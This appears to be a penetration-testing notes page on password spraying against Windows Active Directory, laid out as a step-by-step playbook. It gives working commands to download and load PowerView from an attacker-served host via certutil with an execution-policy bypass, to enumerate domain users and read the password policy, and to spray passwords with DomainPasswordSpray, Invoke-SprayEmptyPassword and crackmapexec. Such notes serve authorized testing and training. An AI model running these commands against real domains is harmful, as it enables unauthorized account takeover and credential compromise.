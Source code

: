# Password Sprayng

**ATT\&CK ID:** [T1110.003](https://attack.mitre.org/techniques/T1110/003/)



**Password spraying** is an attack technique in which an adversary attempts to compromise user accounts by trying to authenticate with a curated list of passwords that are either frequently used or likely to be used by their target.

Task to need to perform password spraying:

* Task 1: Identify all the **users in the domain**
* Task 2: **Initiate** the Password Spraying Attack
* Task 3: **Execution and Verification** of the Password Spraying Attack



## Users Enumeration

### PowerView Import & Enum

Lets use PowerView ps1 module to enumerate all domain users.&#x20;

Copy the script below in a .ps1 file on Kali and transfer file with web server to target machine.

```bash
# kali machine
nano PowerView.ps1

python3 -m http.server 80
```

```powershell
# target machine
cd C:\Temp
certutil -urlcache -f http://$IP:80/PowerView.ps1 PowerView.ps1

powershell -ep bypass

# upload the ps1 script
. .\PowerView.ps1
```

{% embed url="https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1" %}

Run the PowerView command to domain users enumeration

```powershell
# run and save the output into a file 
Get-DomainUser | Select-Object -ExpandProperty cn | Out-File users.txt
type users.txt # to print the output file 
```

***

Another powershell comand to enum domain users:

```powershell
net user /domain
```

### ldapseach (from linux)

The following command makes a request to LDAP to return an output file with all users in the domain.

{% code overflow="wrap" %}
```bash
ldapsearch -H ldap://<DC_IP> -D "user@domain.com" -w <password> -b "dc=domain,dc=com" "(objectClass=user)" | grep "sAMAccountName: " | awk -F'sAMAccountName: ' '{print $2}' > users.txt
```
{% endcode %}





## Get Password Policy

If you have some user credentials or a shell as a domain user you can **get the password policy with**:

### From linux

```bash
# from kali
crackmapexec ldap $IP -u 'user' -p 'password' --pass-pol

ldapsearch -H ldap://10.10.10.10 -x -b "DC=DOMAIN_NAME,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength
```

### From windows

```powershell
# from Windows
net accounts

# from PowerView
Get-DomainPolicy
```

## Run Password Spray

### From Windows

#### DomainPasswordSpray.ps1

Copy this .ps1 script to a file on target machine and import it.

```powershell
cd \PATH\TO\DomainPasswordSpraying.ps1
. .\DomainPasswordSpraying.ps1
```

{% embed url="https://github.com/dafthack/DomainPasswordSpray/blob/master/DomainPasswordSpray.ps1" %}

Execute this command to do password spray

<pre class="language-powershell"><code class="lang-powershell"><strong>Invoke-DomainPasswordSpray -UserList .\users.txt -Password $PASS -Verbose
</strong></code></pre>

***

```powershell
Invoke-SprayEmptyPassword
```

{% embed url="https://github.com/S3cur3Th1sSh1t/Creds/blob/master/PowershellScripts/Invoke-SprayEmptyPassword.ps1" %}

### From Linux

#### CrackMapExec

```bash
crackmapexec smb $IP -u users.txt -p passwords.txt
```














